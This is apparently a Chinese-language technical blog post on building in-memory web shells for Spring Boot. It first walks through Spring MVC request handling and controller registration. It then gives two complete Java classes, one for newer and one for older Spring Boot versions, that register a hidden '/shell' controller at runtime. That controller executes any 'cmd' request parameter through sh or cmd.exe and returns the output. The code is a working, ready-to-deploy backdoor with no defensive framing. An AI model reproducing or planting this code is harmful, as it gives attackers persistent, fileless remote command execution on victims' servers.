










前面介绍了Tomcat下基于`Servelt API`的内存马，在如今Spring一统天下的局面下，有必要研究Spring Boot下内存马的实现。

# Request Process

首先得了解一个请求如何被SpringMVC的`Controller`接收到的。

在整个`Spring MVC`框架中，`DispatcherServlet`处于核心位置，它负责协调和组织不同组件完成请求处理并返回响应工作，所有的请求都通过它。由这个前端控制器将请求分发到不同的`Controller`进行处理。

放上一张请求处理的流程图



`DispatcherServlet`既然是个`Servlet`，那就遵循`init-service-destroy`的生命周期



## init

先看爷爷`HttpServletBean#init`

主要读取了`web.xml`中对`DispatcherServlet`的配置，接着调用子类实现的`initServletBean`



爸爸`FrameworkServlet`重写了`initServletBean`方法

主要是建立了`WebApplicationContext`容器

并加载SpringMVC配置文件中定义的Bean到该容器中

最后将该容器添加到`ServletContext`中

```java
FrameworkServlet#initServletBean
@Override
protected final void initServletBean() throws ServletException {
    // ...
    this.webApplicationContext = initWebApplicationContext();
    initFrameworkServlet(); //...
}
```

`WebApplicationContext`继承于`ApplicationContext`接口

从该容器中可以获取当前应用程序环境信息，它也是`SpringMVC`的`IOC`容器

```java
protected WebApplicationContext initWebApplicationContext() {
    WebApplicationContext rootContext =
        WebApplicationContextUtils.getWebApplicationContext(getServletContext());
    WebApplicationContext wac = null;

    if (this.webApplicationContext != null) {
        // A context instance was injected at construction time -> use it
        wac = this.webApplicationContext;
        if (wac instanceof ConfigurableWebApplicationContext) {
            ConfigurableWebApplicationContext cwac = (ConfigurableWebApplicationContext) wac;
            if (!cwac.isActive()) {
                if (cwac.getParent() == null) {
                    // 将Spring容器设为SpringMVC容器的父容器
                    cwac.setParent(rootContext);
                }
                configureAndRefreshWebApplicationContext(cwac);
            }
        }
    }
    if (wac == null) {
        // 如果 WebApplicationContext 为空，则进行查找，能找到说明上下文已经在别处初始化。
        wac = findWebApplicationContext();
    }
    if (wac == null) {
        // 如果 WebApplicationContext 仍为空，则以 Spring 容器为父上下文建立一个新的。
        wac = createWebApplicationContext(rootContext);
    }

    if (!this.refreshEventReceived) {
        // 模版方法，由 DispatcherServlet 实现
        synchronized (this.onRefreshMonitor) {
            onRefresh(wac);
        }
    }

    if (this.publishContext) {
        // 发布这个 WebApplicationContext 容器到 ServletContext 中
        String attrName = getServletContextAttributeName();
        getServletContext().setAttribute(attrName, wac);
    }

    return wac;
}
```

建立好 WebApplicationContext 后，通过 `onRefresh(ApplicationContext context)` 方法回调

```java
DispatcherServlet#onRefresh
@Override
protected void onRefresh(ApplicationContext context) {
    initStrategies(context);
}

protected void initStrategies(ApplicationContext context) {
    initMultipartResolver(context);
    initLocaleResolver(context);
    initThemeResolver(context);
    initHandlerMappings(context);
    initHandlerAdapters(context);
    initHandlerExceptionResolvers(context);
    initRequestToViewNameTranslator(context);
    initViewResolvers(context);
    initFlashMapManager(context);
}
```

`initStrategies`完成SpringMVC的初始化

这里的`initHandlerMappings`只是从SpringMVC容器及Spring容器中查找所有的HandlerMapping实例，并把它们放入到handlerMappings这个 list中，并不是对HandlerMapping实例的创建

## service

`FrameworkServlet#service`

-> `HttpServlet#service` 

-> `FrameworkServlet#doGet/doPost`

-> `FrameworkServlet#processRequest`

-> `DispatcherServlet#doService`

-> `DispatcherServlet#doDispatch`

这几个都是父亲和儿子之间调来调去，最后下断点在`doDispatch`

```java
protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
    HttpServletRequest processedRequest = request;
    HandlerExecutionChain mappedHandler = null;
    boolean multipartRequestParsed = false;

    WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);

    try {
        ModelAndView mv = null;
        Exception dispatchException = null;

        try {
            // 检查是否有 Multipart，有则将请求转换为 Multipart 请求
            processedRequest = checkMultipart(request);
            multipartRequestParsed = (processedRequest != request);

            // 遍历所有的 HandlerMapping 找到与请求对应的 Handler，并将其与一堆拦截器封装到 HandlerExecution 对象中
            mappedHandler = getHandler(processedRequest);
            if (mappedHandler == null) {
                noHandlerFound(processedRequest, response);
                return;
            }

            // 遍历所有的 HandlerAdapter，找到可以处理该 Handler 的 HandlerAdapter
            HandlerAdapter ha = getHandlerAdapter(mappedHandler.getHandler());

            // 处理 last-modified 请求头 
            String method = request.getMethod();
            boolean isGet = "GET".equals(method);
            if (isGet || "HEAD".equals(method)) {
                long lastModified = ha.getLastModified(request, mappedHandler.getHandler());
                if (new ServletWebRequest(request, response).checkNotModified(lastModified) && isGet) {
                    return;
                }
            }
			
            // 遍历拦截器，执行它们的 preHandle() 方法
            if (!mappedHandler.applyPreHandle(processedRequest, response)) {
                return;
            }

            // Actually invoke the handler.
            mv = ha.handle(processedRequest, response, mappedHandler.getHandler());

            applyDefaultViewName(processedRequest, mv);
            
            // 遍历拦截器，执行它们的 postHandle() 方法
            mappedHandler.applyPostHandle(processedRequest, response, mv);
        } //...
        // 处理执行结果，是一个 ModelAndView 或 Exception，然后进行渲染
        processDispatchResult(processedRequest, response, mappedHandler, mv, dispatchException);
    } //...
    finally {
        if (asyncManager.isConcurrentHandlingStarted()) {
            // 遍历拦截器，执行它们的 afterCompletion() 方法 
            if (mappedHandler != null) {
                mappedHandler.applyAfterConcurrentHandlingStarted(processedRequest, response);
            }
        }
        else {
            // Clean up any resources used by a multipart request.
            if (multipartRequestParsed) {
                cleanupMultipart(processedRequest);
            }
        }
    }
}

protected HandlerExecutionChain getHandler(HttpServletRequest request) throws Exception {
   if (this.handlerMappings != null) {
      for (HandlerMapping mapping : this.handlerMappings) {
         // 这里的mapping就是接下来要讲到的RequestMappingHandlerMapping
         HandlerExecutionChain handler = mapping.getHandler(request);
         if (handler != null) {
            return handler;
         }
      }
   }
   return null;
}
```

* 遍历所有的`HandlerMapping`找到与请求对应的`Handler`（`HandlerExecutionChain`）
* 遍历所有的`HandlerAdapter`，找到可以处理该`Handler`的`HandlerAdapter`
* 遍历拦截器，执行它们的`preHandle`方法
* 执行`Handler`后得到`ModelAndView`（`ModelAndView`是连接业务逻辑层与视图展示层的桥梁）
* 遍历拦截器，执行它们的`postHandle`方法
* 处理执行结果，是一个`ModelAndView`或`Exception`，进行渲染
* 遍历拦截器，执行它们的`afterCompletion`方法

# Get wac

几种拿取上下文的方法

* `getAttribute`

```java
RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.THEME_SOURCE", 0);
```

* `RequestContextUtils`

```java
RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
```

# Register Controller

上面Servlet初始化过程中，我们关注`initHandlerMappings`

默认的`HandlerMapping`如下



`RequestMappingHandlerMapping`这个类就是用于处理`Controller`的

其实现了`InitializingBean`接口，初始化时会调用`afterPropertiesSet`方法

进行了一些`config`的设置，到父类`AbstractHandlerMethodMapping`的`afterPropertiesSet`



遍历Spring容器的所有bean，判断是否是`Handler`，即被注解`Controller`或`RequestMapping`修饰





若为处理器(`Handler`)，进入`detectHandlerMethods`，尝试获取处理器中定义的对路径映射的方法



对于每个方法，封装了一个`RequestMappingInfo`

请求映射信息包括路径、方法、参数等



对方法和类都提取出`RequestMappingInfo`

然后再把两个`RequestMappingInfo`合并成一个（url的合并）



最后对处理器的每个方法进行注册 `registerHandlerMethod`

# Controller MemShell

了解了上面的流程，就不难看懂下面的内存马构造。

高版本SpringBoot：

```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

public class MemShell {
    public MemShell() throws Exception {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
        configField.setAccessible(true);
        RequestMappingInfo.BuilderConfiguration config =
                (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
        Method method = Shell.class.getMethod("inject", HttpServletRequest.class, HttpServletResponse.class);
        RequestMappingInfo info = RequestMappingInfo.paths("/shell")
                .options(config)
                .build();
        Shell shell = new Shell();
        mappingHandlerMapping.registerMapping(info, shell, method);
    }

    public static class Shell {
        public void inject(HttpServletRequest request, HttpServletResponse response) throws IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    }
}
```

低版本SpringBoot：

```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Scanner;

public class MemShell {
    public MemShell() throws Exception {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        Method method = Shell.class.getDeclaredMethod("inject", HttpServletRequest.class, HttpServletResponse.class);
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Shell(), method);
    }

    public static class Shell {
        public Shell() {
        }

        public void inject(HttpServletRequest request, HttpServletResponse response) throws IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        }
    }
}
```

